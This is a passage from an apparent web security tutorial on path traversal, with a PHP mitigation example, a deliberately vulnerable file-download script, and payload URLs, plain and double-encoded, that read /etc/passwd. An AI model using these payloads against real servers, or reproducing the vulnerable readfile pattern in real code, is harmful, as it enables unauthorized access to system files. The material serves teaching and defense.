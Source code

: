     Example (PHP):
    
    ```php
    $file = realpath($file_input);
    if (strpos($file, "/var/www/files/") !== 0) {
        die("Invalid file");
    }
    
    ```
    
4. **Least Privilege Principle**:
Limit the application’s access to the file system. Ensure that the user under which the application runs has restricted permissions, so even if an attacker compromises the system, they can only access files they have permission to.

---

## **Exploitation Scenarios**

### **Example 1: Basic Path Traversal**

An attacker exploits a file download functionality that accepts user input.

```php
<?php
$filename = $_GET['file'];
readfile("/var/www/uploads/" . $filename);
?>

```

Payload:

```
<http://victim.com/download.php?file=../../../../etc/passwd>

```

Result:
The server responds with the contents of `/etc/passwd`.

### **Example 2: Double Encoded Path Traversal**

Some web applications may decode user input multiple times. Attackers can double encode the traversal sequences to bypass input validation.

Payload:

```
<http://victim.com/download.php?file=%252e%252e%252f%252e%252e%252f%252e%252e%252fetc/passwd>

```

- `%25` is the encoded version of `%`.
- The server decodes this twice, resulting in `../../../../etc/passwd`.

---
